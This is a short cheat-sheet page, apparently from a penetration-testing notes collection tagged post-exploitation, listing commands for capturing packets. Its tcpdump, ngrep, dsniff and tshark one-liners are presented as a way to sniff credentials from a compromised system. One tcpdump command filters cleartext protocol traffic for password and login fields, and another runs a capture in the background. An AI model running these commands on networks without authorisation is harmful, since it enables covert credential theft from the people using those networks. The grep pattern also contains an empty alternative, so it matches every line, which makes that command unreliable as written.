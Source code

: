 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - packet-analyzer
---
```

# Capture Packets

## 01 - TCPDump

```
$ sudo -b tcpdump -w capture.pcap
```

Performing man-in-the-middle attack to sniff credentials from a compromised system.

```
$ sudo tcpdump -i eth0 port http or port ftp or port smtp or port imap or port pop3 -l -A | egrep -i 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=||name=|name:|pass:|user:|username:|password:|login:|pass |user ' --color=auto --line-buffered -B20

$ ngrep -q -W byline "GET|POST HTTP"

$ sudo dsniff -m
```

## 02 - Wireshark

```
$ tshark -o 'tls.keylog_file:logfile.pms' -r capture.pcap
```